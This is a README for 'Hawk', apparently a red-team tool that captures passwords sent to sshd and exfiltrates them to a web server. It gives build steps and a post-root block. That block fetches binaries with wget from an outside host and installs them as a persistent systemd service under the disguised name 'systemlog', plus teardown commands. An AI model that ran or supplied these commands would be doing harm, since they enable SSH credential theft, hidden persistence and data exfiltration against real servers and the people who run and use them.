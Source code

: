 # Hawk

This tool monitors sshd for passwords being sent to the server.

## Description

Hawk is a simple tool designed to monitor the sshd service for passwords being sent to the server. It includes a bash script for easy installation and a Go program for password exfiltration to a web server.

## Building for server

```bash
git clone https://github.com/MattKeeley/hawk.git &&
cd hawk


vim exfil.go and change the server location


go build -o hawk &&
cp hawk /home/ubuntu/webserver &&
cp hawk_backdoor /home/ubuntu/webserver
```

## Run once root is obtained:

```bash
 sudo ls /etc/systemlog || sudo wget http://redteam.prodefense.io:1337/hawk -O /etc/systemlog > /dev/null 2>&1
 sudo chmod +x /etc/systemlog
 sudo ls /etc/systemd/system/systemlog.service || sudo wget http://redteam.prodefense.io:1337/hawk_backdoor -O /etc/systemd/system/systemlog.service
 sudo systemctl start systemlog.service
 sudo systemctl enable systemlog.service
```

## For debugging to turn off

```bash
 sudo systemctl stop systemlog.service
 sudo systemctl disable systemlog.service
 sudo rm -rf /etc/systemd/system/systemlog.service
 sudo rm -rf /etc/systemlog
```

